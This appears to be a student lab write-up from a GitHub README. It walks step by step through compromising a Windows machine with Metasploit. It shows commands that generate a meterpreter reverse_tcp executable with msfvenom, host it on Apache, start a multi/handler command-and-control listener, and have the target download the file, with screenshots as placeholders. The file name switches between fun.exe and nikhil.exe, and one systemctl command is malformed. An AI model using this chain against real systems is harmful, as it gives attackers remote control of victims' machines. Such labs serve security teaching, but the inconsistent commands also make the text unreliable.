 ```bash
+------------------------------------------------------------+

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="732" height="498" alt="image" src="https://github.com/user-attachments/assets/f0b21e63-c196-4f8c-9cf4-c57bf565aa07" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > nikhil.exe```

### Output:

<img width="917" height="244" alt="image" src="https://github.com/user-attachments/assets/e0c1c121-7bf8-4db7-9636-c464a5893f83" />



copy the nikhil.exe into the apache ```/var/www/html ```folder

<img width="409" height="122" alt="image" src="https://github.com/user-attachments/assets/bf91f50e-ed72-49ce-91b6-68b8f9751ae4" />
<img width="311" height="65" alt="image" src="https://github.com/user-attachments/assets/b72bc5ed-aefc-4229-be0e-8990f59cb038" />



Start apache server ```sudo systemctl apache2 start``` 
Check the status of apache2 ```sudo apache2 status```

<img width="809" height="385" alt="Screenshot 2025-09-29 083722" src="https://github.com/user-attachments/assets/b193bd17-d388-4ea2-885d-1338913f62b7" />



Invoke msfconsole:

<img width="642" height="648" alt="image" src="https://github.com/user-attachments/assets/24e92ff8-eda2-412d-a045-365ee9e44697" />


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="754" height="497" alt="image" src="https://github.com/user-attachments/assets/72c1356d-0d76-4d8d-9517-313e78b7f361" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="539" height="107" alt="image" src="https://github.com/user-attachments/assets/b4004be8-5d93-4140-b3d8-3d208811e2c5" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.
